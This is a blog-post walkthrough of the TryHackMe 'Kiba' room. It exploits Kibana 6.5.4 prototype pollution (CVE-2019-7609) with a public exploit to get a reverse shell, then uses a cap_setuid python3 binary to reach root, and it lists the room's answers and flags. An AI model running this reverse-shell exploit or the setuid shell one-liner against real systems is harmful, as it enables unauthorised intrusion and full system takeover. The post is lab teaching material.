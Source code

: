 ```yaml
---
author: "Shebu"
title: "Kiba - THM"
date: "2023-06-07"
tags: ["kiba", "elastic", "prototype pollution", "CVE-2019-7609"]
cover:
    image: "null"
    # can also paste direct link from external site
    # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
    alt: "<alt text>"
    caption: "<text>"
    relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```


**Kiba** is a easy rated room from tryhackme where we exploit a prototype pollution vulnerability to gain a user shell  & then escalate our privileges to root by exploiting a python3 binary which has setuid capabilities.

![header](img/0.png#center)


|  **Room** 	| Kiba                                          	|
|:--------------:	|----------------------------------------------------	|
|     **OS**     	| Linux                                              	|
| **Difficulty** 	| Easy                                             	|
|  **Room Link** 	| [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)               	|
|   **Creator**  	| [stuxnet](https://tryhackme.com/p/stuxnet) 	|


## What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

![header](img/1.png#center)

> Vulnerability - Prototype Pollution

## What is the version of visualization dashboard installed in the server?

Go to **Management tab** , there we can find the version of kiba that is running.

![header](img/2.png#center)

> Version - 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 /

A simple google search reveals the **CVE** number.

![header](img/3.png#center)

> CVE ID - CVE-2019-7609

## Compromise the machine and locate user.txt

An python3 exploit for prototype pollution is available on github for  kibana  6.5.4 

- [https://github.com/LandGrey/CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

*Run the Exploit*

```bash
amrita22005client@ubuntu:~/kiba$ python3 exploit.py http://10.10.38.106:5601 10.17.45.3 4444
/home/amrita22005client/kiba/exploit.py:15: DeprecationWarning: The distutils package is deprecated and slated for removal in Python 3.12. Use setuptools or check PEP 632 for potential alternatives
  from distutils.version import StrictVersion
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 10.17.45.3:4444
```

We get our reverse shell & also the `user.txt` flag.

```bash
shebut@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_*********_rce}
```

> **Capabilities is a concept that provides a security system that allows "divide" root privileges into different values**

## How would you recursively list all of these capabilities?

Command to list all capabilities - `getcap -r /`

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
Straightaway we can see that python3 has a suspicious path.

We can refer [GTFOBINS](https://gtfobins.github.io/gtfobins/python/#capabilities) to exploit the python binary which has setuid capabilities by runing the command `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash 
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

# cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
Now we have our root shell & our `root.txt` flag.